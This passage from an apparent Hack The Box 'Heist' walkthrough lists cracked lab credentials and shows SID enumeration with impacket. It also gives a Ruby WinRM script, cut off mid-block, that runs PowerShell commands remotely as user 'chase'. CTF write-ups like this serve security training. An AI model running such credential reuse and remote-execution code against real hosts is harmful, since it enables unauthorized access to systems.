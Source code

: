```
stealth1agent
rout3r:$uperP@ssword
admin: Q4)sJu\Y8qz*A3?d
```

### PowerShell Remoting (sort of)

For one, we know that this credential (`hazard:stealh1agent`) is valid from `smbmap`.

<a class="image-popup">
![c1d55bc2.png](/assets/images/posts/heist-htb-walkthrough/c1d55bc2.png)
</a>

You might ask what\'s next? Well, WinRM is open, isn't it? We can make use of the WinRM Ruby library, combined with a Python shell to "simulate" a PowerShell session.

Unfortunately, that isn\'t the correct credential. We need to determine more usernames. Enter Impacket's `lookupsid.py`. This nifty script, combined with `hazard`'s credential will help us in gathering the username we need.

<a class="image-popup">
![b54e3aec.png](/assets/images/posts/heist-htb-walkthrough/b54e3aec.png)
</a>

Long story short, this credential (`chase:Q4)sJu\Y8qz*A3?d`) is the right combination.

<div class="filename"><span>cmd.rb</span></div>

~~~~ruby
require 'winrm'

opts = {
        endpoint: 'http://10.10.10.149:5985/wsman',
        user: 'chase',
        password: 'Q4)sJu\Y8qz*A3?d',
}

# Powershell commands
cmd = ARGV[0]

conn = WinRM::Connection.new(opts)
conn.shell(:powershell) do |shell|
        output = shell.run(cmd) do |stdout, stderr|
                STDOUT.print stdout
        STDERR.print stderr
~~~~

[1]: https://www.hackthebox.eu/home/machines/profile/201
[2]: https://www.hackthebox.eu/home/users/profile/8308
[3]: https://www.hackthebox.eu/